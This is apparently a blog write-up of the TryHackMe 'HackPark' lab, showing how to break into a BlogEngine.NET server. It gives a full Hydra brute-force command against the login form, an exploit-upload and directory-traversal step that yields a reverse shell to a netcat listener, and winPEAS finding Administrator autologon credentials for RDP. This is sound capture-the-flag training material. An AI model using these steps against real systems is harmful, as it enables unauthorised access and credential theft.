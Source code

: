 ```yaml
---
layout: single
title:  "HackPark Writeup - TryHackMe"
date:   2020-07-31 20:00:00 -0400
classes: wide
categories: THM
tags:
 - Bruteforcing
 - Privesc
 - OSCP
 - Hydra
 - winPEAS
---
```


This time we will be resolving the [HackPark](https://tryhackme.com/room/hackpark) room from [TryHackMe](https://tryhackme.com/). This box is part of the Offensive pentesing learning path so will be very useful for our OSCP journey.

## Room info


![Machine Info](/images/THM/HackPark/01-machine-info.png "Machine Info"){: .align-center}



## Enumeration

For some reason, nmap is not giving any information about the open ports for this machine, but I will anticipate that we have ports **80** and **3389** open.

First of all, taking a look of the website ```http://10.10.203.246``` we see the following landing page:

![Landing Page](/images/THM/HackPark/00-landing-page.png "Landing Page"){: .align-center}

Doing a reverse image search on the clown picture, we can tell that is **Pennywise** from IT movie.

Moving on, the next interesting section of the website is the **Log In** panel on the right menu

![Right Menu](/images/THM/HackPark/02-login.png "Right Menu"){: .align-center}

So, we click on **Log In** and get to a login page. In the landing page we see **Blogengine.net** and a form asking for user and password. 

URL: ```http://10.10.203.246/Account/login.aspx```

![Login](/images/THM/HackPark/03-blog-login.png "Login"){: .align-center}

As we know, the room description says we will be using hydra for bruteforcing. So, before that is important to know what is the default user for **Blogengine**. 

After a quick Google research we got **admin** as the default user and from now on just need to obtain the password through bruteforcing with Hydra.


## Exploiting



For the tool to work, we need to specify the following information:

> hydra -l [User] -P [Pass] [Target IP] [Request Method] "[Login form Path]:[Request body]:[Failure message]"

- The user field is ```admin```.
- For the **Pass** field we will be using ```rockyou.txt``` wordlist.
- The target IP is ```10.10.203.246```.
- The login form path will be ```/Account/login.aspx```.

For the rest, we will have to do a little research on the login page. Using the Developer tools from our browser we can see how the login form sends the request.

The network tab will show the request method whenever we make a submit on the login form. So, let's go ahead and make a request with the following params:

- Username: ```usertest```
- Password: ```passtest```

![Method](/images/THM/HackPark/03-form-method.png "Method"){: .align-center}

Now we know the form is using POST method to make the request, and using the **Edit and Resend** button in the bottom right corner we can see the raw body request. Finally, we also got the message whenever a wrong user/pass is entered: ```Login failed```. 

![Request](/images/THM/HackPark/03-request.png "Request"){: .align-center}

**Request Body**
```bash
__VIEWSTATE=49GAAjlZ%2B4B1%2Bz38DrOFSr7m8aWbh0CXLp8Xr2aPBM2liP4BPRanZv%2Bsnfh62wyJQLsPPiHvYs6oZ5ngezwSDWtN9kSbkJYkqhj%2Fdcvfk0iQv7ShrL9zDiVLHkHAzvF7bEV0%2FgUB5BfJVrw0MFhYcvzn9a0rlmhy8J%2BMjjD53W4mULD4&__EVENTVALIDATION=sXh8q7nd3FnQbnON%2BvVUJwD7BbO7R8oPcmNeBZMWODV4Exie1bp00VsrrcY70IHcnw%2B3oo%2Bgu%2FXsUt2HuFYShgSXZf1qf%2FOosRaywgIUr7HIriKizOiGdSotndccZxhlmHYKGSu9iGAuAQsT5%2BZoAu3zLyGex42pPknzmCQw5%2FRCe%2BUN&ctl00%24MainContent%24LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

For hydra to work, we need to specify a couple of placeholders for the USER and PASS params in the request. If we take a closer look to the raw request, we can see the user and pass entered earlier: 

```
LoginUser%24UserName=usertest&ctl00%24MainContent%24LoginUser%24Password=passtest
```

So we replace in this case **usertest** for ```^USER^``` and **passtest** for ```^PASS^```

```
LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^
```


**Full command**

After getting all the information, the full command look like this:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.203.246 http-post-form "/Account/login.aspx:__VIEWSTATE=DuOBP%2BgZJeq6AMydj5niN1uZM%2FDPpZMaxfWo5oEC4brEJy1oBLy29HUrOfHMJVOGXkG1660e6jVooc9Yq08XSwXuS6%2BEAz0wmCd9zrPJ%2FvRTEfvW4%2FydsHFgcUy%2BaIkSagapG4M4u0EK%2FxLTi5gChTWoajmuqFTxAa8qQQJOi7n9k0Fmpfq1MZzahKDFn5OJvCfq6JW%2FQVV4w%2FwQsnL03wpViAbcqU5CAVBTo9igmfmnTanl64dDgoz8ZkXx0sfLD8O136c%2BVm6kcfY3olmQUP34NqflsNH9hVBYr4piqoMqK%2BQjG2SI4cgyyRbcUjLnOryib9veu%2BsGI147wYnLVmnQT1HR0uePIIBJ%2BA3UQJZngtnK&__EVENTVALIDATION=yxXvvmOhIbyz01WxElUbLdtpbMGxCzl5Rt2yC8ppVo8aEkoGj61ik751%2FMdx5Ea6wPF4FA5bjdCtJ%2BJ2terqrBoDEHH8mETsjtorsuBx5xG0AxeHmiNLCZGHt0BDXhVuDeihrfZuN6Wb89YIQvzsLZT4aFAD2DEeuiF3stBpJy%2Bco6jP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 60 -V
```
So we lunch hydra and in a couple of minutes we got the password for the admin user.

![Hydra bruteforcing](/images/THM/HackPark/02-hydra-BF-blur.png "Hydra bruteforcing"){: .align-center}

Logging in, the first thing to do is found the version of the CMS, for this we go to the About tab on the sidebar menu.

![Blog version](/images/THM/HackPark/03-blog-version.png "Blog version"){: .align-center}

With this information, now we proceed to take a look on exploitdb if there is already an exploit or CVE for this CMS. 

![Searchsploit](/images/THM/HackPark/04-searchsploit.png "Searchsploitn"){: .align-center}


There is indeed an exploit available for our CMS version. Let's take a look to the one named ***"BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution"*** and read it carefully.

It is a exploit written in C# which will allow us to get a reverse shell exploiting a vulnerable code in the ```PostList.ascx.cs``` file. To abuse this vulnerability, we have to do the following:

- Edit the exploit with our local IP address and Port for the reverse shell.

![Exploit](/images/THM/HackPark/04-modify-exploit.png "Exploit"){: .align-center}


- Set a listener with the same parameters.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
```

- Rename the exploit as: ```PostView.ascx```.
- In the CMS, go to ***Content > Posts > New*** and add a new post uploading our ```PostView.ascx``` file. Click on the open folder icon.

![Exploit Upload 1](/images/THM/HackPark/06-upload-01.png "Exploit Upload 1"){: .align-center}

- Upload the exploit using the file manager and add it to the new post.

![Exploit Upload 2](/images/THM/HackPark/06-upload-02.png "Exploit Upload 2"){: .align-center}

- Set a title and save it.

![Exploit Upload 3](/images/THM/HackPark/06-upload-03.png "Exploit Upload 3"){: .align-center}


- Open the URL: ```http://10.10.203.246/?theme=../../App_Data/files```.

Finally we get the reverse shell.

```go
┌─[✗]─[root@parrot]─[/home/hsct/TryHackMe/HackPark]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.203.246] 49428
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

## Privilege Escalation

For privesc we are going to use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) which is awesome for a system quick scan. We need to make sure to download the correct version of the binary as we are in a x64 machine.

```batch
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard Evaluation
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-10000-00000-AA228
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          7/31/2020, 9:45:02 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
With the tool already in the machine, we proceed to run it by simply doing ```winPEAS.exe``` from the console. From the output, this part look interesting:

![Autologon Credentials](/images/THM/HackPark/06-credentials-blur.png "Autologon Credentials"){: .align-center}

**winPEAS** just found us some autologon credentials from the **Administrator** user, so the next step is checking this creds through RDP.

```bash
xfreerdp /u:Administrator /p:4q6Xv******** /v:10.10.203.246
```

![Administrator access](/images/THM/HackPark/07-admin-access.png "Administrator access"){: .align-center}

That's it! now we got Administrator privileges and access to the root flag in the desktop.